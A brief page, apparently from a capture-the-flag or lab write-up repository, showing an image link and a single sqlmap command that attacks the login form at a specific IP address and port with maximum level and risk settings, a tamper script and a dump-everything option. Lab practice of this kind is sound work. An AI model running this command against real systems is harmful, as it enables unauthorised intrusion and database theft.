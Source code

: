 ![image](https://github.com/stensil4rt/CodeBy/assets/62753044/1cd983f3-c653-41a8-8d8b-5d49150b4814)

```
sqlmap -u "http://62.173.140.174:28780/login.php" --batch --level=5 --risk=3 --random-agent -v --tamper=space2comment --all --data="username=josh&password=josh"
```
